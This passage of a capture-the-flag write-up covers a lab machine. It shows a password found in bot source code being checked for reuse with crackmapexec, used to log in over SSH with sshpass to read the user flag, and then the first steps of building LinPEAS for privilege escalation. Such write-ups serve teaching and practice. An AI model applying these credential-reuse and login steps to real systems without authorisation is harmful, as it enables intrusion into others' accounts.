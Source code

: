 There's a password, "Queenofblad3s!23".

### SSH

Given the access to files in `/home/dwight`, it makes sense that the bot
is running as dwight. It's worth checking if dwight shared their
password across rocketchat and the system. `crackmapexec` shows it
works:



    oxdf@hacky$ crackmapexec ssh 10.10.11.143 -u dwight -p 'Queenofblad3s!23'
    SSH         10.10.11.143    22     10.10.11.143     [*] SSH-2.0-OpenSSH_8.0
    SSH         10.10.11.143    22     10.10.11.143     [+] dwight:Queenofblad3s!23 



*Note: It's important to put that password in single quotes and not
double quotes, or Bash will interpret `!23` as the command run 23
commands ago in the current sessions history.*

SSH works to get a shell:



    oxdf@hacky$ sshpass -p 'Queenofblad3s!23' ssh dwight@10.10.11.143
    Activate the web console with: systemctl enable --now cockpit.socket

    Last failed login: Sun Jun  5 13:34:39 EDT 2022 from 10.10.14.6 on ssh:notty
    There was 1 failed login attempt since the last successful login.
    Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
    [dwight@paper ~]$



And `user.txt`:



    [dwight@paper ~]$ cat user.txt
    9e780dce************************



## Shell as root

### LinPEAS

In general, I like to enumeration manually before breaking out
enumeration scripts because it provides good practice of knowing the
things to look for. That said, on this one, after a looking around on my
own, I didn't see much of interest.

#### Build

I could grab the latest release from the [releases
page](https://github.com/carlospolop/PEASS-ng/releases), but there's
also a builder I can use. I'll clone the repo onto my computer
(`git clone https://github.com/carlospolop/PEASS-ng`), and then go into
the `PEASS-ng/linPEAS` directory.
